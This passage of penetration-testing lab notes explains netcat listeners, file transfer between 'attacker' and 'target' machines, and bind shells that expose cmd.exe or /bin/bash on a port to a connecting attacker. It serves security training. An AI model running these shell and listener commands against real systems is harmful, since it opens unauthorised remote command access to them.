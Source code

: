 * Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```

* Transfer files with `nc`

```bash
# A listener must be present on the target system
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
echo "Hello target" > test.txt
nc -nv 10.2.23.227 1234 < test.txt
```

### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

🗒️ **Bind Shell** - a remote shell where _the attacker connects to the listener running on the target system_ and execute commands on the target system.

* _Bind shells issues_:
  * Must have access to the target system
  * Inbound traffic can be blocked by a firewall, it is very suspect
* A `netcat` listener must be configured on the target system to execute:
* `cmd.exe` - Windows
* `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

* Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```

```bash
# Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```
